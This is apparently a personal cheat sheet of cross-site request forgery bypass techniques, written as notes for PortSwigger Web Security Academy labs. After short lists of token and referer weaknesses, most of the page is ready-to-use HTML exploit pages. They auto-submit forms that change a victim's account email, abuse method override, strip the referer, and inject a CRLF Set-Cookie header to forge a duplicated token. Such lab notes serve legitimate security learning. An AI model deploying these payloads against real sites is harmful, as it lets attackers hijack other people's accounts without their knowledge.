 ## CSRF bybass methods
- NO csrf token
- weak csrf token
- check content type
- check referer header

## CSRF token bybass methods
- reomving ANI-csrf token
- NO check for the users token
- weak token
- Reasuable token
- change request method
- Guessable token
- Bybass referer

## method attacks
- remove referer header and send request and check response
- remove original header and send request and check response
- remove csrf  token and send request and check response



## Basic method no defenses
- the request
```
POST /myaccount/changeemail
HOST:


email=....
```

- the exploit
```html
<form action="" method="POST">
<input type="hidden" name="email" value="">
</form>
<script>
 document.forms[0].submit();
</script>

```
## CSRF where token validation depends on token being present
- the request
```
POST /myaccount/changeemail
HOST:


email=....&csrftoken=.....
```
- TIPS: reomve the csrf token
-THE exploit

```html
<form action="" method="POST">
<input type="hidden" name="email" value="">
</form>
<script>
 document.forms[0].submit();
</script>
```

## CSRF where token validation depends on request method
- the request
```
POST /myaccount/changeemail
HOST:


email=....&csrftoken=.....
```
- TIPS: reomve the csrf token
- Tips: change request TO GET in CSRF payloads
-THE exploit

```html
<form action="" method="GET">
<input type="hidden" name="email" value="">
</form>
<script>
 document.forms[0].submit();
</script>
```

## CSRF where token is not tied to user session
- steps                                                                                                                                                                     
1- create two accounts                                                                                                                                                                     
2- go to the first account and change email we will change                                                                                                                                                                     
3- go to second account and try intersept change email then drop request , copy the csrf token                                                                                                                                                                     
4- go to the first account and put csrf token(second account) and try change email is valid or not


## csrf bypass via method override
```
<html>
<body>
   <script>history.pushState(' ', ' ' ,'/')</script>
   <form action="" method="GET">
   <input type="hidden" name="_method" value="POST">
   <input type="hidden" name="email" value="">
   </form>
   <script>
   document.forms[0].submit();
   </script>
</body>
</html>
```
## CSRF where token is duplicated in cookie
```html
<html>
<body>
   <script>history.pushState(' ',' ','/')</script>
   <form action="https://0a6a006c04de5fc7829147ec00750057.web-security-academy.net/my-account/change-email" method="POST"/>
   <input type="hidden" name="email" value="a@gmail.com"/>
   <input type="hidden" name="csrf" value="fake"/>
   <input type="submit" value="submit request"/>
   </form>
   <img src="https://0a6a006c04de5fc7829147ec00750057.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
   </body>
</html>
```
## CSRF where Referer validation depends on header being present
```html
<html>
<head>
   <meta name="referrer" content="no-referrer" >
</head>
<body>
   <script>history.pushState(' ', ' ' ,'/')</script>
   <form action="https://0a390078039fe0a780e435a600ca0059.web-security-academy.net/my-account/change-email" method="POST">
   <input type="hidden" name="email" value="a@gmail.com">
   <input type="submit" value="submit" >
   </form>
   <script>
   document.forms[0].submit();
   </script>
</body>
</html>
```

## CSRF with broken Referer validation
```html
<html>
<body>
   <script>history.pushState(' ', ' ' ,'/?0ad4003504bb812580aae57c00c40072.web-security-academy.net')</script>
   <form action="https://0ad4003504bb812580aae57c00c40072.web-security-academy.net/my-account/change-email" method="POST">
   <input type="hidden" name="email" value="a@gmail.com">
   <input type="submit" value="submit" >
   </form>
   <script>
   document.forms[0].submit();
   </script>
</body>
</html>
```
